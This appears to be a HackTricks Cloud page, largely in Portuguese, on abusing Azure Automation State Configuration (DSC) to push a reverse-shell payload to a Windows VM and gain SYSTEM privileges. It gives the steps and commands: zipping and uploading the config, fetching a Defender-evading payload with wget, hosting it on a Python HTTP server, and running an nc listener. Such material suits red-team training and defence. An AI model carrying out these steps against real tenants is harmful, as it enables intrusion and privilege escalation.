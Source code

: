 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

O processo envolve a configuração de uma infraestrutura de servidor remoto para hospedar um payload modificado do Nishang `Invoke-PowerShellTcp.ps1`, chamado `RevPS.ps1`, projetado para contornar o Windows Defender. O payload é servido a partir de uma máquina Kali Linux com IP `40.84.7.74` usando um servidor HTTP simples em Python. A operação é executada através de várias etapas:

#### Step 1 — Create Files

* **Files Required:** Dois scripts PowerShell são necessários:
1. `reverse_shell_config.ps1`: Um arquivo de Desired State Configuration (DSC) que busca e executa o payload. Ele pode ser obtido no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Um script para publicar a configuração na VM, disponível no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Variáveis e parâmetros nesses arquivos devem ser adaptados ao ambiente específico do usuário, incluindo nomes de recursos, caminhos de arquivos e identificadores de servidor/payload.

#### Step 2 — Zip Configuration File

* O `reverse_shell_config.ps1` é compactado em um arquivo `.zip`, tornando-o pronto para transferência para a Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Definir Contexto de Armazenamento e Fazer Upload

* O arquivo de configuração compactado é enviado para um contêiner de Armazenamento Azure predefinido, azure-pentest, usando o cmdlet Set-AzStorageBlobContent do Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* O servidor Kali baixa o payload RevPS.ps1 de um repositório do GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* O script é editado para especificar a VM Windows alvo e a porta para o reverse shell.

#### Step 5 — Publish Configuration File

* O arquivo de configuração é executado, resultando na implantação do script de reverse shell no local especificado na VM Windows.

#### Step 6 — Host Payload and Setup Listener

* Um Python SimpleHTTPServer é iniciado para hospedar o payload, junto com um listener Netcat para capturar conexões recebidas.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* A tarefa agendada executa o payload, alcançando privilégios de nível SYSTEM.

#### Conclusão

A execução bem-sucedida deste processo abre inúmeras possibilidades para ações adicionais, como extração de credenciais ou expansão do ataque para várias VMs. O guia incentiva a continuidade do aprendizado e a criatividade no âmbito do Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
